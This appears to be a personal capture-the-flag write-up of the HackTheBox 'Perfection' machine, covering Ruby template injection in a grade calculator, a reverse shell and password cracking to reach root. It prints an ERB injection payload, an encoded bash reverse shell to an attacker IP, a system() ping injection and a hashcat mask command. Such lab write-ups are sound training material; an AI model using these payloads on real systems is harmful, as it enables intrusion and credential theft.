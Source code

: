 +++
title = 'Perfection'
date = 2024-07-19T14:39:25+05:30
slug = "HTB-Perfection"
categories = ["hackthebox","Perfection","linux","Easy"]
+++

Startign with nmap 

![perfection 1](https://dl.dropbox.com/scl/fi/kx982jejvm51n9uaw31ou/Pasted-image-20240428172105.png?rlkey=yyntjx1bnkhj9j4cw81208jza&st=ltd2oesi&dl=0)

![perfection 2](https://dl.dropbox.com/scl/fi/07pr7iebbt11f1bzlelc0/Pasted-image-20240428172547.png?rlkey=6boj54ev711y8q6x8fapcz3zj&st=t1hgi5xr&dl=0)

the website dashboard

checked the wappalyzer to find the technologies website is using but couldn't find any 
I tried directory fuzzing 

Found this at the bottom of the website 
![perfection 2](https://dl.dropbox.com/scl/fi/4h7qzrzgdij4y2mwggn6d/Pasted-image-20240428172356.png?rlkey=h55s17ycmae2gj42q3fis4qlf&st=v7skct6p&dl=0)

![perfection 3](https://dl.dropbox.com/scl/fi/eosiqi38dyjraggin3hko/Pasted-image-20240428172442.png?rlkey=wc4xvjbx8rcus2ryp833h2yxk&st=onml3qmn&dl=0)

![perfection 4](https://dl.dropbox.com/scl/fi/n23s7rj4ljwibar8y34q6/Pasted-image-20240428172517.png?rlkey=p98x6u6apxkdbk6r4gzrgitwq&st=q1fa4xj7&dl=0)
we got another info that susan is sysadmin 

we can see this in the about us and there might me a vulnerability on secure coding
![perfection 5](https://dl.dropbox.com/scl/fi/8czuqbffm3m6ybblxlyp2/Pasted-image-20240428172611.png?rlkey=mlz0ojlkmoxkm2bj14u40di30&st=wjmf3l0j&dl=0)

there is a input field in the website , there might be a input validation vulnerbility

let's do some rearch on the technologies the website is using WEBrick 
![perfection 6](https://dl.dropbox.com/scl/fi/ybz3os28u7dpuczy6lb4u/Pasted-image-20240428172643.png?rlkey=qcxrlcqbj5zal9b1tra5c3oj8&st=k1roabx6&dl=0)

but there is no information about vulnerbilities
![perfection 7](https://dl.dropbox.com/scl/fi/vmner2o0vp56ovlx168oa/Pasted-image-20240428172712.png?rlkey=p5xq5p78wqtkzgri697dyvuxi&st=5drybtfk&dl=0)


the above is the robots.txt file we got something intresting 

now we've gatherd information available in the website the next part will be testing the inputs

![perfection 8](https://dl.dropbox.com/scl/fi/bsa478pi15jegiqdmoh4i/Pasted-image-20240428172824.png?rlkey=aqwa3tctjgrjmq48vga5r36i9&st=d4iglepj&dl=0)

i did burpsuite scan to get more information about the vulnerbilities and the results are 

![perfection 9](https://dl.dropbox.com/scl/fi/eatb1xyitnx8si3b4s0p1/Pasted-image-20240428172841.png?rlkey=k6mlz4rdrs220x0049xx7xr12&st=0gebdusd&dl=0)
to know how to perform a scan in burpsuite refer to [[scanning with burp scanner]]
so i confirmed that there is a way to bypass the input in the calculator

after adding single '  i got this result 
![perfection 10](https://dl.dropbox.com/scl/fi/n5gokptftk1ng998x3prj/Pasted-image-20240428173049.png?rlkey=1eiijyj3hgvbgd5m8pfuamfeq&st=tvc4gir2&dl=0)

after bit of research i came to know that it is a SSTI vulnerbility (server side template injection)
refer [[SSTI vulnerbility]] 

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

search for ruby payloads in this website

![perfection 11](https://dl.dropbox.com/scl/fi/0noe8981v7fw3rd4b8p00/Pasted-image-20240428173117.png?rlkey=aypy87w1a2yzbvo5v7gr7l4jk&st=mvc5795e&dl=0)


let's try some payloads and see what happens
![perfection 12](https://dl.dropbox.com/scl/fi/7mfd8koua6ont36yyx39x/Pasted-image-20240428173215.png?rlkey=7o5e94a8vauv3qsuvcfgf4e6a&st=zhcwz6to&dl=0)

we've got same result let's keep trying
to encode select the characters and do ctrl+u to do url encoding
![perfection 13](https://dl.dropbox.com/scl/fi/58yrzotidpsj41pym9yvn/Pasted-image-20240428173655.png?rlkey=ai1mzgkwjscdhzxqgktcied94&st=1sfko5bl&dl=0)

i've multiplied 7* 7 and i got the result 49 so <%= 7* 7 %> payload works 

now let's add a linux command to thi payload to see if it works 

![perfection 14](https://dl.dropbox.com/scl/fi/gktzqa2p8zzlrqiqt83hy/Pasted-image-20240428173754.png?rlkey=b8r96umkvvl9k3o82kjaxuqfb&st=4u84j1pi&dl=0)

we got susan as the username if we used whoami comamnd here

let's do ls and pwd to knwo the direcotries and present directory
to execute commands use  ` 'these 

![perfection 15](https://dl.dropbox.com/scl/fi/yx5332o9f22rzlh9tlbxv/Pasted-image-20240428173826.png?rlkey=s9mtnv3oacnt8lrjw0c2c38q1&st=y0nmi8am&dl=0)

we got some details

using revshells.com website i created a python payload and gave me shell access

![perfection 16](https://dl.dropbox.com/scl/fi/o6qwugbfs5hyeaw5frj3p/Pasted-image-20240428173912.png?rlkey=xrqe4lgyeix89ep6zr7elgmdy&st=qt0bvjwk&dl=0)

We can generate payload manually on our terminal refer to [[#Generate Payload]]

![perfection 18](https://www.dropbox.com/scl/fi/o5bqluapks7zzdxdh3zuo/Pasted-image-20240428174443.png?rlkey=sqqkdafl6aqwbca7xsqrzwpb5&st=1rbq7jxa&dl=0)

to get neat terminal we did 
python3 -c 'import pty; pty.spawn("/bin/bash")'


we got the user flag now

![perfection 19](https://dl.dropbox.com/scl/fi/tlmq6axnw80401uplnhst/Pasted-image-20240428174552.png?rlkey=5cxamrau1kz1b8xhpxrwk38sn&st=jzy2ixjd&dl=0)

cracking password with hash cat  using this command
```
hashcat -m 1400 <hashhere> -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d
```

![perfection 20](https://dl.dropbox.com/scl/fi/cs33msyywl4i2377zddqc/Pasted-image-20240428174743.png?rlkey=ccbuu45rbmb431apwv8awvvz4&st=x3fea1yl&dl=0)

refer [[Hashcat]] to learn using hashacat

after sometime we finally cracked hashcat password 
susan_nasus_413759210

![perfection 21](https://dl.dropbox.com/scl/fi/o10opz8t9du2ajbn8fvu0/Pasted-image-20240428174954.png?rlkey=ih1dij52arygvzdfp11hnlp03&st=h9qyj53d&dl=0)


using sudo bash we switched to root user and got root flag
![perfection 22](https://dl.dropbox.com/scl/fi/sfqcyp74fen4scv6gjfza/Pasted-image-20240428175215.png?rlkey=mv1m9qgrto16itn1oeblvw4wm&st=u5iwnpjp&dl=0)


### Generate Payload

Using hURL to encode and decode payloads demonstrates how we can mess around with data to take advantage of weaknesses in web applications.

Specifically, the payload we’re making for the Weighted Grade Calculator app is made to run a reverse shell command. This way, we can exploit any possible vulnerabilities that let us run code on the server’s side.

```
┌──(kali㉿kali)-[~]
└─$ hURL -B "bash -i >& /dev/tcp/10.10.14.213/7373 0>&1"

Original       :: bash -i >& /dev/tcp/10.10.14.213/7373 0>&1                                                                                                                                                     
base64 ENcoded :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx

┌──(kali㉿kali)-[~]
└─$ hURL -U "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx"

Original    :: YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx                                                                                                                                          
URL ENcoded :: YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4yMTMvNzM3MyAwPiYx
```

```
category1=a%0A<%25%3Dsystem("ping+-c1+$myIP");%25>
```
the above is the another paylaod from the write up 
